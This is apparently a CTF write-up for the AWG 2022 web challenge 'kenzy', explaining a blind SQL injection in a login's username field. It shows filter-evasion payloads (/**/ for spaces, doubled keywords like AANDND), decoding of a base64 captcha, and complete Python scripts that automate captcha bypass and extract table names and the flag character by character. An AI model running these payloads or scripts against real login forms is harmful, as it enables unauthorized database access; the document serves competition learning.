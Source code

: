 ```yaml
---
title: "kenzy challenge Writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/kenzy/logo.jpg"
tags: ["CTF", "sql-injection"]
date: 2022-08-06T12:49:18+34:08
toc: true
draft: false
categories:
  - Web Exploitation 
ribbon: red
---
```


|             |                                              |
| ----------- | -------------------------------------------- |
| CTF name    | [AWG 2022](https://www.ascyberwargames.com/) |
| challenge   | kenzy                                        |
| category    | web                                          |
| about       | SQL injection                                |
| description | captcha is not that secure                   |
| points      | 900                                          |
| team        | [0xCha0s](https://ctftime.org/team/168238)   |

## Discovery

we are introduced with this page which takes username ,password and the Captcha

![error](/assets/images/kenzy/20220806020216.png)

If we check the source code we can notice this comment

```cmd
        <!-- Username =====> admin -->
```

we can also find the endpoint which generates the captcha each time we request it different captcha is assigned

```cmd
http://34.175.249.72:60001/scripts/captcha.php
```

Let's check the application by submitting the admin as a username and any password with a valid captcha

![error](/assets/images/kenzy/20220806021154.png)

It returns an `invalid username or password` because we don't really know the correct password and default credentials don't work

as we want to be able to login without password , we should think of SQL injection.

![error](/assets/images/kenzy/20220806021637.png)

trying a basic payload at the password we can see this result which is a great hint for SQLi , we should be in the correct path but this page doesn't reveal much.

![error](/assets/images/kenzy/20220806021712.png)

Trying some payloads in the password filed wasn't really helpful as when we tried `admin' OR 1=1#` it returns same response for `1=1` and `1=2` . so it doesn't work really well. we can take a look at the username field.

Trying `username=admin' OR 1=1#` we got this response

```cmd
 {"Username":"admin'1=1#","status":"statement error"}
```

we can see the **OR** is removed and the spaces as well ! , same thing with the **AND**

-> Bypass filters :

The most famous bypass for the spaces filter is replacing it with `/**/` , and we can try use `OORR` instead of `OR` so if `OR` is removed from `OORR` we got our `OR` if filters are not so restricted . same for `AND` we can use `AANDND`

```cmd
username=admin'/**/AANDND/**/1=1#
```

and we got the wished results

![error](/assets/images/kenzy/20220806022447.png)

To make sure we have a valid Blind SQL injection we should be able to control input to trigger 2 different responses one for the True case and The False one.

Trying same payload with `1=2` to be

```cmd
username=admin'/**/AANDND/**/1=2#
```

we will get this response , so we can control this input !

```json
{
  "Username": "admin'/**/AND/**/1=2#",
  "status": "Invalid username or password"
}
```

it will be a tedious process to write the captcha each time with each request , specially blind sqli will issue a lot of requests so we need to build some sort of python script to automate this process

## Exploitation

First we need to parse the captcha somehow , we can try issue a request to `/scripts/captcha.php` to see if the response contains the captcha as text.

![error](/assets/images/kenzy/20220806023237.png)

and indeed it sends the captcha base64 encoded , so we can parse it easily and get the value .

```py
import requests
import base64

s = requests.Session()
url = "http://34.175.249.72:60001/scripts/captcha.php"
r = s.get(url)
captcha = str(r.content).split(':')[-1].replace('"','').replace("'",'')
captcha_decode = base64.b64decode(base64.b64decode(captcha)).decode('utf-8')
print(captcha_decode)
```

This code will parse the captcha and get us the decoded value which we need during the login process. now we need to send another request to the login page to see the response

```py
url2 = 'http://34.175.249.72:60001/index.php'
payload = f"admin' AND 1=1#".replace(' ','/**/').replace('AND','ANANDD')
data = {'username' :payload,
	    'password': "admin"  ,
	    'captcha' : captcha_decode ,
	    'send' :'Send'
		}
r2 = s.post(url2 , data=data )
print(r2.text)
```

assembling the 2 code snippets above we will see the exploit works as expected indeed , now we can start constructing our query to retrieve table name and the flag content.

```py
import requests
import base64
from urllib.parse import quote

table=""
counter = 1

flag = True
while flag :
    s = requests.Session()
    flag = False
    for i in range (32,126) :
        url = "http://34.175.249.72:60001/scripts/captcha.php"
        r = s.get(url)
        captcha = str(r.content).split(':')[-1].replace('"','').replace("'",'')
        captcha_decode = base64.b64decode(base64.b64decode(captcha)).decode('utf-8')
        url2 = 'http://34.175.249.72:60001/index.php'
        payload = f"admin' AND {i}=ascii(substr((SELECT table_name FROM information_schema.tables where table_schema=database() limit 1),{counter},1))#".replace(' ','/**/').replace('AND','ANANDD')

        data = {

        'username' :payload,
        'password': "admin"  ,
        'captcha' : captcha_decode ,
        'send' :'Send'
        }

        r2 = s.post(url2 , data=data )
        print(f"{table+chr(i)}")
        if "Treasures" in r2.text :
            table +=chr(i)
            flag = True
            break
    counter +=1
```

we have just made 2 loops , the Flag variable is important as it will be the factor to stop the code . basically it will allow the while loop to keep iterating if we found a letter in the insider loop but if it did iterate through all characters and doesn't found a valid one it will not loop again , it will exit.

the query has 2 variables the counter and the ascii representation of the desirable letter .

Running the code above we got the table name is `solve` .

## Getting the Flag

will use same approach to get the flag content , we can guess the column is named flag and we can verify that by using this payload

```py
payload = "admin' AND 'f'=substr((select column_name from information_schema.columns WHERE table_name='solve' limit 1),1,1)#".replace(' ','/**/').replace('AND','ANANDD')
```

and will find `f` is valid as the first character in the `column_name` , we can continue until we find column name is `flag` indeed

now we can start ask for each character in our flag until we get the last character which should be `}`

```py
import requests
import base64
from urllib.parse import quote

flag= "ASCWG{"
counter = 7 # start after ASCWG{
while not flag.endswith("}") :
	s = requests.Session()
	for i in range (31,126) :
		url = "http://34.175.249.72:60001/scripts/captcha.php"
		r = s.get(url)
		captcha = str(r.content).split(':')[-1].replace('"','').replace("'",'')
		captcha_decode = base64.b64decode(base64.b64decode(captcha)).decode('utf-8')
		#print(captcha_decode)
		url2 = 'http://34.175.249.72:60001/index.php'
		payload = f"admin' AND {i}=ascii(substr((select flag from solve limit 1),{counter},1))#".replace(' ','/**/').replace('AND','ANANDD')
		data = {
	    'username' :payload,
	    'password': "admin"  ,
	    'captcha' : captcha_decode ,
	    'send' :'Send'
		}
		r2 = s.post(url2 , data=data )
		#print(r2.text)
		print(f"{flag+chr(i)}")
		if "Treasures" in r2.text :
			flag +=chr(i)
			break
	counter +=1
```

Running the script now

![error](/assets/images/kenzy/20220806025633.png)

and after some time we will get our flag eventually which is

```cmd
ASCWG{23fsdc$@#EAScasq12_hard}
```

![error](https://c.tenor.com/n-NpYkvi3y4AAAAC/%D8%A8%D9%87%D8%AC%D8%AA%D8%B5%D8%A7%D8%A8%D8%B1-bahgat-saber.gif)
